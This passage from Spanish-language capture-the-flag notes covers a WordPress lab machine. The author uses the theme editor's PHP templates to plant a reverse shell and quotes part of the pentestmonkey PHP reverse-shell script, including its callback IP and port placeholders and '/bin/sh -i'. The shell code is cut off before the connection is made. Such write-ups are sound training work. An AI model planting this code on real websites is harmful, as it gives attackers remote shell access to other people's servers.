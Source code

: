 ### seguimos buscando información que nos sea útil. conseguimos una opción de apariencia de la pagina web que tiene un apartado de edición. aquí podemos ver archivos php. esto es información muy útil para nosotros.

![[Pasted image 20240612144959.png]]
![[Pasted image 20240612144959.png]]
### en este caso podriamos buscar exactamenta la direccion url donde estan almacenados estos template para de esa manera poder utilizar un codigo php para ejecutar una reverseshell

#### direccion url: 10.10.141.53/web-conten/themes/twentyfifteen

### parece que esta es la direccion donde estan almacenados estos archivos php. asi que utilizaremos el siguiente codigo para intentar conseguir una reverse shell.

```python
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
```